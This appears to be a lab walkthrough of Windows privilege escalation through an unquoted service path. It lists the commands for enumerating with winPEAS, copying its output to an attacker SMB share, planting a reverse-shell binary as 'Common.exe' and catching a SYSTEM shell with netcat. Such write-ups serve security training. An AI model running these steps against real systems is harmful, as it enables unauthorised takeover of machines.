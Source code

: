 1x2 Service - Unquoated Path

## Service - Unquoated Path
```bash
.\winPEASany.exe ansi quiet servicesinfo > wpeas_services_op.txt
copy C:\PrivEsc\wpeas_services_op.txt \\10.9.4.127\kali\wpeas_services_op.txt
cat wpeas_services_op.txt
```
Identified 1 service mis-configuration

![53b0690e56c68db5243ec17b3dfa8b5e.png](../_resources/725a41247cf04c59baee5f137d745377.png)

```bash
sc qc unquotedsvc
```
![f4f0aa2315fdbe87b154fdfef5e9490c.png](../_resources/79af260d3c894a12bbfd2b555e0f3429.png)

```console
C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\"
C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\Common Files\"
```
![af8fe927324a06aaa615512f39052d83.png](../_resources/c7017cb9d64a433e9335c33495356499.png)

```console
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```
![865e02649a75936b31bcb753dcabc416.png](../_resources/5858abb01d6946bbba8fa6b1bdd6662f.png)

```bash
sudo nc -nvlp 53
net start unquotedsvc
```

**Got System**

![2636ff098d04d081f574cd6308fbfd97.png](../_resources/491dfba64bb34a33b09ca8bdf04f608f.png)